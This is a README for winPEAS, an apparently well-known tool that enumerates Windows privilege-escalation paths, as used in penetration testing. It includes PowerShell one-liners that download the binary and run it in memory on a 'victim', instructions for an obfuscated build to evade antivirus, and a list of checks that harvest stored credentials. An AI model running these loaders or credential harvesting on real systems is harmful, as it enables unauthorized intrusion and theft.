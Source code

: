 # Windows Privilege Escalation Awesome Script (.exe)

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)**

[![youtube](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/images/screen.png)](https://youtu.be/66gOwXMnxRI)

## Quick Start

**.Net >= 4.5.2 is required**

Precompiled binaries:
- Download the **[latest obfuscated and not obfuscated versions from here](https://github.com/carlospolop/PEASS-ng/releases/tag/refs%2Fheads%2Fmaster)** or **compile it yourself** (read instructions for compilation).

```bash
#One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fheads%2Fmaster/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

#Before cmd in 3 lines
$url = "https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fheads%2Fmaster/winPEASany_ofs.exe"
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

#Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

#Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

#Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

## Parameters Examples

```bash
winpeas.exe #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
winpeas.exe domain #enumerate also domain information
winpeas.exe wait #wait for user input between tests
winpeas.exe debug #display additional debug information
winpeas.exe log #log output to out.txt instead of standard output
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas  #Execute also additional LOLBAS search check
```

## Help
```
quiet                Do not print banner
notcolor             Don't use ansi colors (all white)
systeminfo           Search system information
userinfo             Search user information
processinfo          Search processes information
servicesinfo         Search services information
applicationsinfo     Search installed applications information
networkinfo          Search network information
windowscreds         Search windows credentials
browserinfo          Search browser information
filesinfo            Search files that can contains credentials
eventsinfo           Display interesting events information
wait                 Wait for user input between checks
debug                Display debugging information - memory usage, method execution time
log=[logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified

Additional checks (slower):
-lolbas              Run additional LOLBAS check
-linpeas=[url]       Run additional linpeas.sh check for default WSL distribution, optionally provide custom linpeas.sh URL
                     (default: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)
```

## Basic information

The goal of this project is to search for possible **Privilege Escalation Paths** in Windows environments.

It should take only a **few seconds** to execute almost all the checks and **some seconds/minutes during the lasts checks searching for known filenames** that could contain passwords (the time depened on the number of files in your home folder). By default only **some** filenames that could contain credentials are searched, you can use the **searchall** parameter to search all the list (this could will add some minutes).

The tool is based on **[SeatBelt](https://github.com/GhostPack/Seatbelt)**.

## Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Below you have some indications about what does each color means exacty, but keep in mind that **Red** is for something interesting (from a pentester perspective) and **Green** is something well configured (from a defender perspective).


## Instructions to compile you own obfuscated version

In order to compile an **ofuscated version** of Winpeas and bypass some AVs you need to ** install dotfuscator ** in *VisualStudio*. 

To install it *open VisualStudio --> Go to Search (CTRL+Q) --> Write "dotfuscator"* and just follow the instructions to install it.

To use **dotfuscator** you will need to **create an account** *(they will send you an email to the address you set during registration*).

Once you have installed and activated it you need to:
1. **Compile** winpeas in VisualStudio
2. **Open dotfuscator** app
3. **Open** in dotfuscator **winPEAS.exe compiled**
4. Click on **Build**
5. The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

**I'm sorry that all of this is necessary but is worth it. Dotfuscator minimizes a bit the size of the executable and obfuscates the code**.

![](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASexe/images/dotfuscator.PNG)


## Colors

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/images/colors.png)

## Checks

<details>
  <summary>Details</summary>
    
- **System Information**
  - [x] Basic System info information
  - [x] Use Watson to search for vulnerabilities
  - [x] Enumerate Microsoft updates
  - [x] PS, Audit, WEF and LAPS Settings
  - [x] LSA protection
  - [x] Credential Guard
  - [x] WDigest
  - [x] Number of cached cred
  - [x] Environment Variables
  - [x] Internet Settings
  - [x] Current drives information
  - [x] AV
  - [x] Windows Defender
  - [x] UAC configuration
  - [x] NTLM Settings
  - [x] Local Group Policy
  - [x] Applocker Configuration & bypass suggestions
  - [x] Printers
  - [x] Named Pipes
  - [x] AMSI Providers
  - [x] SysMon
  - [x] .NET Versions
  
- **Users Information**
  - [x] Users information
  - [x] Current token privileges
  - [x] Clipboard text
  - [x] Current logged users
  - [x] RDP sessions
  - [x] Ever logged users
  - [x] Autologin credentials
  - [x] Home folders
  - [x] Password policies
  - [x] Local User details
  - [x] Logon Sessions

- **Processes Information**
  - [x] Interesting processes (non Microsoft)

- **Services Information**
  - [x] Interesting services (non Microsoft) information
  - [x] Modifiable services
  - [x] Writable service registry binpath
  - [x] PATH Dll Hijacking

- **Applications Information**
  - [x] Current Active Window
  - [x] Installed software
  - [x] AutoRuns
  - [x] Scheduled tasks
  - [x] Device drivers

- **Network Information**
  - [x] Current net shares
  - [x] Mapped drives (WMI)
  - [x] hosts file
  - [x] Network Interfaces
  - [x] Listening ports
  - [x] Firewall rules
  - [x] DNS Cache (limit 70)
  - [x] Internet Settings

- **Windows Credentials**
  - [x] Windows Vault
  - [x] Credential Manager
  - [x] Saved RDP settings
  - [x] Recently run commands
  - [x] Default PS transcripts files
  - [x] DPAPI Masterkeys
  - [x] DPAPI Credential files
  - [x] Remote Desktop Connection Manager credentials
  - [x] Kerberos Tickets
  - [x] Wifi
  - [x] AppCmd.exe
  - [x] SSClient.exe
  - [x] SCCM
  - [x] Security Package Credentials
  - [x] AlwaysInstallElevated
  - [x] WSUS
  
- **Browser Information**
  - [x] Firefox DBs
  - [x] Credentials in firefox history
  - [x] Chrome DBs
  - [x] Credentials in chrome history
  - [x] Current IE tabs
  - [x] Credentials in IE history
  - [x] IE Favorites
  - [x] Extracting saved passwords for: Firefox, Chrome, Opera, Brave

- **Interesting Files and registry**
  - [x] Putty sessions
  - [x] Putty SSH host keys
  - [x] SuperPutty info
  - [x] Office365 endpoints synced by OneDrive
  - [x] SSH Keys inside registry
  - [x] Cloud credentials
  - [x] Check for unattended files
  - [x] Check for SAM & SYSTEM backups
  - [x] Check for cached GPP Passwords
  - [x] Check for and extract creds from McAffe SiteList.xml files
  - [x] Possible registries with credentials
  - [x] Possible credentials files in users homes
  - [x] Possible password files inside the Recycle bin
  - [x] Possible files containing credentials (this take some minutes)
  - [x] User documents (limit 100)
  - [x] Oracle SQL Developer config files check
  - [x] Slack files search
  - [x] Outlook downloads
  - [x] Machine and user certificate files
  - [x] Office most recent documents
  - [x] Hidden files and folders
  - [x] Executable files in non-default folders with write permissions  
  - [x] WSL check 

- **Events Information**
  - [x] Logon + Explicit Logon Events
  - [x] Process Creation Events
  - [x] PowerShell Events
  - [x] Power On/Off Events
  
- **Additional (slower) checks**
  - [x] LOLBAS search
  - [x] run **[linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)** in default WSL distribution

</details>

## TODO
- Add more checks
- Mantain updated Watson (last JAN 2021)

If you want to help with any of this, you can do it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)** or you can submit a pull request.

If you find any issue, please report it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)**.

**WinPEAS** is being **updated** every time I find something that could be useful to escalate privileges.

## Please, if this tool has been useful for you consider to donate

[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.patreon.com/peass)

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

## License

MIT License

By Polop<sup>(TM)</sup>, makikvues (makikvues2[at]gmail[dot].com)
